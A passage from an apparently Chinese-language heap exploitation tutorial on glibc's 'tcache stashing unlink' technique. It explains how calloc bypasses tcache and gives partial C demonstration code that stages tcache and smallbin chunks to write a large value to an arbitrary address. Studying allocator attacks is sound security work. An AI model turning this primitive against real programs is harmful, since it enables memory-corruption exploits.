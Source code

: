也就是在smallbin分配之后，如果smallbin链表中仍然存在堆块，并且对应的tcache list没有满chain的话，就会将small bin链表中所有的堆块放入到相应的tcache中。

**当然要发生这种分配的方式，必须要越过tcache优先分配堆块，calloc的分配是不从tcache bin里取chunk的，即可满足。**

下面跟着示例代码和glibc相关源码调试来学习一下：

### `tcache_stashing_unlink`

#### <a class="reference-link" name="%E7%A4%BA%E4%BE%8B%E4%BB%A3%E7%A0%81"></a>示例代码

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;inttypes.h&gt;

static uint64_t victim = 0;

int main(int argc, char **argv)`{`
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    char *t1;
    char *s1, *s2, *pad;
    char *tmp;

    printf("You can use this technique to write a big number to arbitrary address instead of unsortedbin attack\n");

    printf("\n1. need to know heap address and the victim address that you need to attack\n");

    tmp = malloc(0x1);
    printf("victim's address: %p, victim's vaule: 0x%lx\n", &amp;victim, victim);
    printf("heap address: %p\n", tmp-0x260);

    printf("\n2. choose a stable size and free six identical size chunks to tcache_entry list\n");
    printf("Here, I choose the size 0x60\n");
    for(int i=0; i&lt;6; i++)`{`
        t1 = calloc(1, 0x50);
        free(t1);
    `}`

    printf("Now, the tcache_entry[4] list is %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p --&gt; %p\n", 
        t1, t1-0x60, t1-0x60*2, t1-0x60*3, t1-0x60*4, t1-0x60*5);

    printf("\n3. free two chunk with the same size like tcache_entry into the corresponding smallbin\n");
    /* 将两个大小相同的块（如tcache_entry）释放到相应的smallbin中 */
    s1 = malloc(0x420);
    printf("Alloc a chunk %p, whose size is beyond tcache size threshold\n", s1);
    pad = malloc(0x20);
    printf("Alloc a padding chunk, avoid %p to merge to top chunk\n", s1);
    free(s1);
    printf("Free chunk %p to unsortedbin\n", s1);
    malloc(0x3c0);
    printf("Alloc a calculated size, make the rest chunk size in unsortedbin is 0x60\n");
    malloc(0x100);
    printf("Alloc a chunk whose size is larger than rest chunk size in unsortedbin, that will trigger chunk to other bins like smallbins\n");
    printf("chunk %p is in smallbin[4], whose size is 0x60\n", s1+0x3c0);

    printf("Repeat the above steps, and free another chunk into corresponding smallbin\n");
    printf("A little difference, notice the twice pad chunk size must be larger than 0x60, or you will destroy first chunk in smallbin[4]\n");
```